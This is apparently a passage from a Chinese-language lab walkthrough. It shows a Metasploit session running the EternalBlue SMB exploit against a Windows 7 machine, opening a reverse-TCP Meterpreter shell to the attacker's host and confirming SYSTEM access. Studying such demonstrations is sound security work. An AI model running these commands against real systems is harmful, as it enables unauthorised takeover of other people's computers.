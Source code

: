 ```
19.   RPORT               445              yes       The target port (TCP)
20.   VerifyArch          true             yes       Check if remote architecture matches exploit Target.
21.   VerifyTarget        true             yes       Check if remote OS matches exploit Target.
22.
23.
24.Payload options (windows/x64/meterpreter/reverse_tcp):
25.
26.   Name      Current Setting  Required  Description
27.   ----      ---------------  --------  -----------
28.   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
29.   LHOST     192.168.1.118    yes       The listen address
30.   LPORT     4444             yes       The listen port
31.
32.
33.Exploit target:
34.
35.   Id  Name
36.   --  ----
37.   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
38.
39.
40.msf exploit(ms17_010_eternalblue) &gt; exploit     # 发起攻击
41.
42.[*] Started reverse TCP handler on 192.168.1.118:4444 
43.[*] 192.168.1.112:445 - Connecting to target for exploitation.
44.[+] 192.168.1.112:445 - Connection established for exploitation.
45.[+] 192.168.1.112:445 - Target OS selected valid for OS indicated by SMB reply
46.[*] 192.168.1.112:445 - CORE raw buffer dump (23 bytes)
47.[*] 192.168.1.112:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
48.[*] 192.168.1.112:445 - 0x00000010  74 65 20 36 2e 31 00                             te 6.1         
49.[+] 192.168.1.112:445 - Target arch selected valid for OS indicated by DCE/RPC reply
50.[*] 192.168.1.112:445 - Trying exploit with 12 Groom Allocations.
51.[*] 192.168.1.112:445 - Sending all but last fragment of exploit packet
52.[*] 192.168.1.112:445 - Starting non-paged pool grooming
53.[+] 192.168.1.112:445 - Sending SMBv2 buffers
54.[+] 192.168.1.112:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
55.[*] 192.168.1.112:445 - Sending final SMBv2 buffers.
56.[*] 192.168.1.112:445 - Sending last fragment of exploit packet!
57.[*] 192.168.1.112:445 - Receiving response from exploit packet
58.[+] 192.168.1.112:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
59.[*] 192.168.1.112:445 - Sending egg to corrupted connection.
60.[*] 192.168.1.112:445 - Triggering free of corrupted buffer.
61.[*] Sending stage (1189423 bytes) to 192.168.1.112
62.[*] Meterpreter session 1 opened (192.168.1.118:4444 -&gt; 192.168.1.112:49177) at 2017-06-07 13:42:17 +0800
63.[+] 192.168.1.112:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
64.[+] 192.168.1.112:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
65.[+] 192.168.1.112:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
66.
67.meterpreter &gt; getuid    # 查询当前用户权限为SYSTEM,获取到到最高权限
68.Server username: NT AUTHORITYSYSTEM
69.meterpreter &gt; sysinfo   # 系统信息查询，当前系统为 Windows7
70.Computer        : CHINAMAN-PC
71.OS              : Windows 7 (Build 7600).
72.Architecture    : x64
73.System Language : zh_CN
74.Domain          : WORKGROUP
75.Logged On Users : 0
76.Meterpreter     : x64/windows
```